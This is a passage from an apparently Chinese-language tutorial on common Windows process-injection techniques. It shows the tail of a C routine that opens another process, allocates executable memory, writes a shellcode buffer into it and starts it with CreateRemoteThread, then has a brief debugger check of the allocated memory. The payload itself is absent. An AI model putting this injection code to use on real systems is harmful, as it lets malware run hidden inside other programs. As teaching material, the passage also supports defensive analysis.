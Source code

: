 ```c
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, wpid);
	printf("%d\n", hProcess);
    
    //申请内存空间，最后赋予空间权限
	LPVOID IpBaseAddress = VirtualAllocEx(hProcess, 0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	printf("IpBaseAddress : %p\n", IpBaseAddress);
    
    //将shellcode写入内存
	WriteProcessMemory(hProcess, IpBaseAddress, shellcode, sizeof(shellcode), NULL);
	printf("WriteProcess\n");
    
    //创建线程执行shellcode
	CreateRemoteThread(hProcess, 0, 100, (LPTHREAD_START_ROUTINE)IpBaseAddress, 0, 0, NULL);
	return 0;
}
```



### 动态验证

![image-20221008192501725](6种常见注入方式/image-20221008192501725.png)

VirtualAllocEx申请内存之后返回的地址，在内存中查看，可以看到一段全空空间。
